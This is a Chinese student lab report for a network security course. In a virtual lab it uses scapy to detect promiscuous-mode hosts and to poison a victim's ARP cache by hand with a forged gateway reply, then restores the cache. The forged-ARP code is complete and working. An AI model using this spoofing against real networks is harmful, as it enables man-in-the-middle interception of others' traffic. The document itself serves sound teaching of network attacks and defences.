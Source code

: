 ## 实验四：网络拓扑

### **网络拓扑**


![](./img/网络拓扑图.PNG)


网络中的节点基本信息如下：

| id       | ip address   | mac address
| ---   | --- | --- |
| Debian-gateway   | 172.16.111.1/24 |  08:00:27:47:aa:70
|    kali-attacker    | 172.16.111.147/24   | 08:00:27:25:6c:52
| kali-victim-1|172.16.111.117/24|08:00:27:1e:72:79



### **实验准备**

**安装 scapy**

在攻击者主机上提前安装好 scapy 

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![](./img/成功安装scapy.PNG)

### **实验一：检测局域网中的异常终端**

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```

![](./img/检查混杂模式是否启用.PNG)


```bash
# 在攻击者主机上开启 scapy
sudo scapy
```

![](./img/开启scapy.PNG)


```python
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.117")
```

![](./img/promiscping1.PNG)


```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```

![](./img/开启混杂模式.PNG)



```python
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.117")
```

![](./img/比较差异.PNG)

```bash
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```
**PS：**

输出差异：在受害者主机未开启混杂模式前，攻击者主机收到`0 packet 0 answer`, 而开启后攻击者主机收到`1 packet 1 answer`。

### **实验二：手工单步“毒化”目标主机的 ARP 缓存**

以下代码在攻击者主机上的 scapy 交互式终端完成。

1.获取当前局域网的网关 MAC 地址

```python
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![](./img/ARP请求报文.PNG)

```python
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

![](./img/发送ARP请求.PNG)

2.伪造网关的 ARP 响应包

```python
# 准备发送给受害者主机 172.16.111.117
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.117", hwdst="08:00:27:25:6c:52")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)

```

![](./img/发送伪造ARP.PNG)

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
```

![](./img/ARP欺骗成功.PNG)

3.恢复受害者主机的 ARP 缓存记录

```python
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:47:aa:70", pdst="172.16.111.117", hwdst="08:00:27:25:6c:52")
sendp(restorepkt1, count=100, inter=0.2)
```


![](./img/攻击者恢复ARP.PNG)


```bash
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```
![](./img/受害者刷新ARP.PNG)


### **遇到的问题与解决办法**

- 伪造网关的 ARP 响应包失败,在受害者主机上查看 ARP 缓存
    ![](./img/ARP缓存不对.PNG)

   -   解决：将`arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.117", hwdst="08:00:27:25:6c:52")`改为`arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.117", hwdst="08:00:27:25:6c:52")`即可



### **参考资料**

[老师的课件](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)